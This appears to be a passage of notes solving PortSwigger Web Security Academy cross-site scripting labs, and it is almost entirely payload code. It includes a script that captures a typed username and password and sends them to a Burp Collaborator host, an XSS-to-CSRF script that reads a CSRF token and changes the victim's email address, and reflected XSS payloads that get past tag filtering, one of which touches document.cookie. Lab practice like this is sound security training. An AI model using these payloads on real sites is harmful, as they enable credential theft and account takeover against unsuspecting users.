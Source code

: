 ```
<input name=username id=username>
<input type=password name=password id=password onchange="Capture()">

<script>
function Capture() {
var user = document.getElementById('username').value;
var pass = document.getElementById('password').value;
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://zhkjvelr2k0vd9rj0u0otf3hq8w1kq.burpcollaborator.net?username=" + user + "&password=" + pass, true)
xhr.send()
}
</script>
```
    
### Lab: Exploiting XSS to perform CSRF
    
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

```
```
### Lab: Reflected XSS into HTML context with most tags and attributes blocked
    
```
<iframe src="https://0acc0059043fe655c05b160100090066.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

### Reflected XSS into HTML context with all tags blocked except custom ones
 
```
<script>
location = 'https://0a5f003a04d24121c109559a007d0086.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

### Reflected XSS with some SVG markup allowed
